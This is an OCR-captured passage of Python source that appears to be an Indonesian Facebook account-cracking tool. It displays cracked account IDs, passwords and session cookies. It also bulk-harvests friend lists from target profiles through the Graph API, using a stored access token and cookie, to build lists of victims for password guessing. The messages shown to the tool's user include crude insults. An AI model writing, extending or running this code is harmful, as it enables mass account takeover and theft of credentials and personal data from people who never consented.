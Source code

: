 			except:
				print('=>File Tidak Di Temukan ')
				time.sleep(2)
				back()
			nocp=0
			for cpku in range(len(lin)):
				cpkuni=lin[nocp].split('|')
				cpkuh=f'# ID : {cpkuni[0]} PASSWORD : {cpkuni[1]}'
				sol().print(mark(cpkuh,style="green"))
				print(f'{hh}COOKIE : {u}{cpkuni[2]}')
				nocp +=1
			input('[ Klik Enter ]')
			back()
	elif kz in ['0','00']:
		back()
	else:
		print('=>Pilih Yang Bener TOLOL ')
		exit()
#-------------------[ CRACK-PUBLIK ]----------------#
def dump_massal():
	try:
		token = open('.token.txt','r').read()
		cok = open('.cok.txt','r').read()
	except IOError:
		exit()
	try:
		jum = int(input('=>ENTER LIMT IDZ : '))
	except ValueError:
		print('{k}=>NOT JANI ')
		exit()
	if jum<1 or jum>100000000:
		print('=>TRY AGAIN ')
		exit()
	ses=requests.Session()
	yz = 0
	for met in range(jum):
		yz+=1
		kl = input('=>iD LNK '+str(yz)+' : ')
		uid.append(kl)
	for userr in uid:
		try:
			col = ses.get('https://graph.facebook.com/v2.0/'+userr+'?fields=friends.limit(5000)&access_token='+tokenku[0], cookies = {'cookies':cok}).json()
			for mi in col['friends']['data']:
				try:
					iso = (mi['id']+'|'+mi['name'])
					if iso in id:pass
					else:id.append(iso)
				except:continue
		except (KeyError,IOError):
			pass
		except requests.exceptions.ConnectionError:
			print('{k}=>TRY AGAIN ')
			exit()
	try:
		print('')
		print(f'{k}=>TOTAL IDâ˜…{b}'+str(len(id)))
		setting()
	except requests.exceptions.ConnectionError:
		print(f'{u}')
		print('=>Sinyal Lo kek Kontol ')
		back()
	except (KeyError,IOError):
		print(f'âž¥=>{k} IF ID IS PUBLIC THEN TRY AGAIN WITH NEW COOKIE OTHRWSE CHEK YOUR ID LNK {u}')